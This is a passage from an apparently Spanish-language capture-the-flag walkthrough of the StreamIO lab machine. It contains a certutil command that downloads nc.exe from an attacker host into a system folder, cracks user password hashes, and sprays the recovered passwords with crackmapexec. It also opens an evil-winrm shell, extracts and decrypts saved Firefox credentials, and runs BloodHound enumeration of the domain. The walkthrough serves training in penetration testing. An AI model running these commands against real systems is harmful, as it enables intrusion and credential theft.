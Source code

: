 ```system("certutil.exe -f -urlcache -split http://10.10.14.16/nc.exe C:\\Windows\\System32\\spool\\drivers\\color\\nc.exe");```
----------- -------------------------------------------------- --------------------------------------------------
          1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a
          2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332
          3 James                                              c660060492d9edcaa8332d89c99c9239
          4 Theodore                                           925e5408ecb67aea449373d668b7359e
          5 Samantha                                           083ffae904143c4796e464dac33c1f7d
          6 Lauren                                             08344b85b329d7efd611b7a7743e8a09
          7 William                                            d62be0dc82071bccc1322d64ec5b6c51
          8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5
```
Crackeamos los hashes:  
```console
└─$ john hashes -w=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
get_dem_girls2@yahoo.com (?)
└─$ crackmapexec smb 10.10.11.158 -u users.txt -p "get_dem_girls2@yahoo.com"
SMB         10.10.11.158    445    DC               [+] streamIO.htb\nikk37:get_dem_girls2@yahoo.com
└─$ evil-winrm -i 10.10.11.158 -u 'nikk37' -p 'get_dem_girls2@yahoo.com'
*Evil-WinRM* PS C:\Users\nikk37\Desktop> copy \\10.10.14.16\carpeta\enumeracion_windows.bat
```
En Appdata está la carpeta "Mozilla" que suele tener creds almacenadas bajo rutas muy específicas:  
```
*Evil-WinRM* PS C:\Users\nikk37\Desktop> download C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json logins.json
*Evil-WinRM* PS C:\Users\nikk37\Desktop> download C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db key4.db
```
Los hashes se rompen con [firepwd](https://github.com/lclevy/firepwd)

```console
└─$ git clone "https://github.com/lclevy/firepwd"
└─$ cd firepwd
└─$ pip install -r requirements.txt
└─$ cp ../key4.db .; cp ../logins.json .
└─$ python3 firepwd.py
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```
```console
└─$ crackmapexec smb 10.10.11.158 -u users.txt -p pass.txt --continue-on-succes;
SMB         10.10.11.158    445    DC               [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r
```

-----------------------
# Part 5: Escalando dentro del dominio

Para enumerar mejor el dominio, hay que utilizar la herramienta "bloodhound".  
```console
└─$ bloodhound-python -c All -u 'JDgodd' -p 'JDg0dd1s@d0p3cr3@t0r' -ns 10.10.11.158 -d streamio.htb -dc streamio.htb --zip
```
![streamIO_8](https://user-images.githubusercontent.com/96772264/206920980-e5d05f07-b32b-459b-aa78-afa5dd33c56c.PNG)
